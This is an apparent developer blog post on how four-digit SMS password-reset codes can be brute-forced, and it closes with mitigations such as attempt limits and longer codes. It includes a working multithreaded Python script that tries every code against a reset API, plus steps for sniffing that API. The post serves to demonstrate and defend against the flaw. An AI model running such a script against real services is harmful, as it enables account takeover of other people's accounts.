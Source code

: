 ```yaml
---
title: "Password Recovery SMS Verification Code Security Issue"
author: "ZhgChgLi"
date: 2021-03-14T15:57:38.256+0000
last_modified_at: 2024-04-13T16:30:08.749+0000
categories: "ZRealm Dev."
tags: ["ios-app-development","hacker","web-security","password-security","security-token"]
description: "Demonstrating the severity of brute force attacks using Python"
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
render_with_liquid: false
---
```


### Password Recovery SMS Verification Code Security Issue

Demonstrating the severity of brute force attacks using Python



![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}
### Introduction

This article doesn't contain much technical content in terms of information security. It was simply a sudden idea I had while using a certain platform's website; I decided to test its security and discovered some issues.

When using the password recovery feature on websites or apps, there are generally two options. One is to enter your account or email, and then a link to a password reset page containing a token will be sent to your email. Clicking the link will open the page where you can reset your password. This part is generally secure unless, as mentioned in [this previous article](../142244e5f07a/), there are design flaws.

The other method for password recovery is to enter the bound phone number (mostly used in app services), and then an SMS verification code will be sent to your phone. After entering the verification code, you can reset your password. For convenience, most services use purely numeric codes. Additionally, since iOS ≥ 11 introduced the [Password AutoFill](../948ed34efa09/) feature, the keyboard will automatically recognize and prompt the verification code when the phone receives it.


![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)


According to the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple has not provided specific rules for the format of automatically filled verification codes. However, I noticed that almost all services supporting auto-fill use purely numeric codes, suggesting that only numbers can be used, not a complex combination of numbers and letters.
### Issue

Numeric passwords are susceptible to brute force attacks, especially 4-digit passwords. There are only 10,000 combinations from 0000 to 9999. Using multiple threads and machines, brute force attacks can be divided and executed.

Assuming a verification request takes 0.1 seconds to respond, 10,000 combinations = 10,000 requests
```
Time required to crack: ((10,000 * 0.1) / number of threads) seconds
```

Even without using threads, it would take just over 16 minutes to find the correct SMS verification code.


> _In addition to insufficient password length and complexity, other issues include the lack of a limit on verification attempts and excessively long validity periods._ 




### Combination

Combining the above points, this security issue is common in app environments. Web services often add CAPTCHA verification after multiple failed attempts or require additional security questions when requesting a password reset, increasing the difficulty of sending verification requests. Additionally, if web service verification is not separated between the front and back ends, each verification request would require loading the entire webpage, extending the response time.

In app environments, the password reset process is often simplified for user convenience. Some apps even allow login through phone number verification alone. If the API lacks protection, it can lead to security vulnerabilities.
### Implementation


> ⚠️Warning⚠️ This article is only intended to demonstrate the severity of this security issue. Do not use this information for malicious purposes. 



#### Sniffing Verification Request API

Everything starts with sniffing. For this part, you can refer to previous articles " [The app uses HTTPS, but data is still stolen.](../46410aaada00/) " and " [Using Python+Google Cloud Platform+Line Bot to automate routine tasks](../70a1409b149a/) ". For the principles, refer to the first article, and for practical implementation, it is recommended to use [Proxyman](https://proxyman.io/){:target="_blank"} as mentioned in the second article.

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

If it is a front-end and back-end separated website service, you can use Chrome -> Inspect -> Network -> See what request was sent after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the verification code request obtained is:**
```
POST https://zhgchg.li/findPWD
```

**Response:**
```
{
   "status": false,
   "msg": "Verification error"
}
```
#### Writing a brute force Python script

crack.py:
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error (" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

After running the script, we get:

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
Verification code is: 1743
```

Enter `1743` to reset the password or directly log in to the account.

> Bigo!

### Solutions
- Add more information verification for password reset (e.g., birthday, security questions)
- Increase the length of the verification code (e.g., Apple 6-digit code), increase the complexity of the verification code (if it does not affect AutoFill functionality)
- Invalidate the verification code after more than 3 incorrect attempts, requiring the user to resend the verification code
- Shorten the validity period of the verification code
- Lock the device after too many incorrect attempts, add graphical verification codes
- Implement SSL Pinning in the APP, encrypt and decrypt transmissions (to prevent sniffing)

### Further Reading
- [Revealing a Clever Website Vulnerability Discovered Years Ago](../142244e5f07a/)
- [How to Create an Interesting Engineering CTF Competition](../729d7b6817a4/)
- [The APP Uses HTTPS Transmission, But the Data Was Still Stolen](../46410aaada00/)
- [Automate Routine Tasks Using Python + Google Cloud Platform + Line Bot](../70a1409b149a/)

If you have any questions or suggestions, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

_[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}._
